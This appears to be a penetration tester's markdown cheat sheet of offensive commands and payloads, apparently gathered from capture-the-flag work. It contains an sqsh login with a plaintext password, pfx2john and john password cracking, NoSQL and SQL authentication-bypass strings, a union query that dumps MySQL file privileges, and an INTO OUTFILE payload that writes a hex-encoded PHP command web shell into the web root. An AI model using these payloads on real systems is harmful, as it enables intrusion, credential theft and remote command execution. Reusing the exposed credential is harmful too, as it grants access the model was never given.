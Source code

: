 sqsh -S 10.13.37.12:1433 -U teignton\\karl.memaybe -P 'B6rQx_d&RVqvcv2A'

select * from openquery("web\clients", 'select name from master..sysdatabases');

## pfx file decode

pfx2john legacyy_dev_auth.pfx > pfx.hash
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt



## Python Requests and Burp Suite

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.get("https://www.google.com/", proxies=proxies, verify=False)

## Complied python binary file extractor

https://github.com/extremecoders-re/pyinstxtractor

To decomplie python compiled file

	https://github.com/zrax/pycdc

## gcc cc1 problem

find /usr/ -name "*cc1*"
 out:  /usr/share/terminfo/x/xterm+pcc1
 out:  /usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc1
 out: /usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc1plus
export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/

# Injections

## NoSQL

{"username": {"$ne": null}, "password": {"$ne": null}}

## SQL

PAYLOAD : admin'||''==='

' OR 1 LIMIT 1, 2-- -

## Sql file writeable check payload 

" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -

**SQL file write**

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -
